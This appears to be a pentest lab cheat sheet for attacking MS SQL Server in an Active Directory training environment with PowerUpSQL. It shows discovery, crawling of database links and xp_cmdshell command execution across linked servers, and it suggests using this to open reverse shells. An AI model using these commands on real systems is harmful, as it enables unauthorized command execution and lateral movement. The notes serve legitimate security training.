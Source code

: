 ## MS SQL 

```powershell
# Import PowerUpSQL.psd1
C:> Import-Module C:\AD\Tools\PowerUpSQL-master \PowerupSQL.psd1
```
### Enumerate
---
#### Discovery (SPN Scan)
```powershell
C:> Get-SQLInstanceDomain
```
#### Gather Information
```powershell
C:> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
ComputerName           : dcorp-mssql.dollarcorp.moneycorp.local
Instance               : DCORP-MSSQL
DomainName             : dcorp
...
ServiceAccount         : NT AUTHORITY\NETWORKSERVICE
...
Currentlogin           : dcorp\student76
IsSysadmin             : No    -> Need to find out a Yes here
ActiveSessions         : 1

ComputerName           : dcorp-mssql.dollarcorp.moneycorp.local
Instance               : DCORP-MSSQL
DomainName             : dcorp
...
ServiceAccount         : NT AUTHORITY\NETWORKSERVICE
...
Currentlogin           : dcorp\student76
IsSysadmin             : No
ActiveSessions         : 1
```
#### Check Accessibility
```powershell
C:> Get-SQLConnectionTestThreaded
ComputerName    Instance        Status
------------    --------        ------
DCORP-STUDENT76 DCORP-STUDENT76 Not Accessible

C:> Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
ComputerName                           Instance                                    Status
------------                           --------                                    ------
dcorp-mgmt.dollarcorp.moneycorp.local  dcorp-mgmt.dollarcorp.moneycorp.local,1433  Not Accessible
dcorp-mssql.dollarcorp.moneycorp.local dcorp-mssql.dollarcorp.moneycorp.local,1433 Accessible
dcorp-mssql.dollarcorp.moneycorp.local dcorp-mssql.dollarcorp.moneycorp.local      Accessible
dcorp-sql1.dollarcorp.moneycorp.local  dcorp-sql1.dollarcorp.moneycorp.local       Not Accessible
dcorp-sql1.dollarcorp.moneycorp.local  dcorp-sql1.dollarcorp.moneycorp.local,1433  Not Accessible
dcorp-mgmt.dollarcorp.moneycorp.local  dcorp-mgmt.dollarcorp.moneycorp.local       Not Accessible
DCORP-STUDENT76                        DCORP-STUDENT76                             Not Accessible
```
### Database Links
---
A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust
#### Look for Links to Remote Servers
```powershell
C:> Get-SQLServerLink -Instance <mssql_instance> -Verbose
# Also can do the query "select * from master..sysservers"
```
#### Enumerate Database Links
```powershell
# Find for a Sysadmin attribute on a server
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Verbose



```
### Execute Commands
---
```powershell
# On Specific Instance
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget <sq_host>

# Execute query on every link of the chain
C:> Get-SQLServerLinkCrawl -Instance <mssql_instance> -Query "exec master..xp_cmdshell 'whoami'" 

# The query is returned in CustomQuery field
Version     : SQL Server 2017
Instance    : EU-SQL
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL.EU.EUROCORP.LOCAL}
User        : sa
Links       :
# Use this queries to open reverse shells
```
